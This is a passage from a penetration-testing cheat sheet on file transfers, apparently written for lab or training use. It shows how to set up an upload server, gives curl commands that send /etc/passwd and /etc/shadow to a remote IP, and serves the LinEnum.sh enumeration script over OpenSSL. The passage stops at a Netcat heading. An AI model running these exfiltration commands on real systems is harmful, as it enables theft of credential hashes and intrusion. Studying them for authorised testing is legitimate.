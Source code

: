 ### Web Server with Upload Capability

Standard Python HTTP servers don't support file uploads. The `uploadserver` module adds this functionality.

#### Setting Up Upload Server

```bash
# Install uploadserver
sudo pip3 install uploadserver

# Basic HTTP upload server
python3 -m uploadserver

# HTTPS upload server with certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

#### Uploading Files to Server

```bash
# Upload single file using curl
curl -X POST http://192.168.49.128:8000/upload -F 'files=@/etc/passwd'

# Upload multiple files
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### OpenSSL Transfers

OpenSSL can be used to create encrypted connections for file transfers.

#### Server Side

```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Start OpenSSL server with file
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

#### Client Side

```bash
# Connect and download file
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Netcat Transfers

Netcat (nc) provides a simple way to transfer files between systems.
